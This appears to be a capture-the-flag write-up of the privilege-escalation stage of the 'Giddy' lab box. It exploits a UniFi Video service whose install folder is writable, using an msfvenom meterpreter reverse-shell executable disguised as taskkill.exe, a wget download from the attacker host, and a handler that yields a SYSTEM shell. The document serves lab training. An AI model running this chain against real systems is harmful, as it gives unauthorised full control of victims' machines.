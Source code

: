 # 15 - PrivEsc



# Unifi
```
*Evil-WinRM* PS C:\Users\Stacy\Documents> dir


    Directory: C:\Users\Stacy\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/17/2018   9:36 AM              6 unifivideo
```

It contains a 6 character long string `stop`(with new line and carriage return). The filename is a hint that we should search for some type of vulnerability on unifi. 

# Searchsploit 
```bash
┌─[user@parrot]─[10.10.14.9]─[~/htb/giddy]
└──╼ $ searchsploit unifi video
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Ubiquiti Networks UniFi Video Default - 'crossdomain.xml' Security Bypass                                                                                   | php/webapps/39268.java
Ubiquiti UniFi Video 3.7.3 - Local Privilege Escalation                                                                                                     | windows/local/43390.txt
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```


Local Privilege Escalation, that works for us. Here is the vulnerability, the service is running as system but users have write access to its installation directory because the unifi folder inherited its permissions from its parent directory "C:\ProgramData".


# Meterpreter Payload

```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/giddy/www]                                                
└──╼ $ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.14 LPORT=4444 -f exe > taskkill.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload         
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload                                                   
Payload size: 510 bytes                                                                        
Final size of exe file: 7168 bytes
```


# Execute the payload
```powershell
*Evil-WinRM* PS C:\ProgramData\unifi-video> wget 10.10.14.14/taskkill.exe -o taskkill.exe
*Evil-WinRM* PS C:\ProgramData\unifi-video> sc.exe stop UniFiVideoService

SERVICE_NAME: UniFiVideoService
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x2
        WAIT_HINT          : 0xbb8
```


# Reverse Meterpreter connected

```bash
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.14
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.14:4444 
[*] Sending stage (200262 bytes) to 10.10.10.104
[*] Meterpreter session 1 opened (10.10.14.14:4444 -> 10.10.10.104:49709) at 2021-08-18 20:12:57 +0300

meterpreter > shell
Process 2700 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\ProgramData\unifi-video>whoami
whoami
nt authority\system
```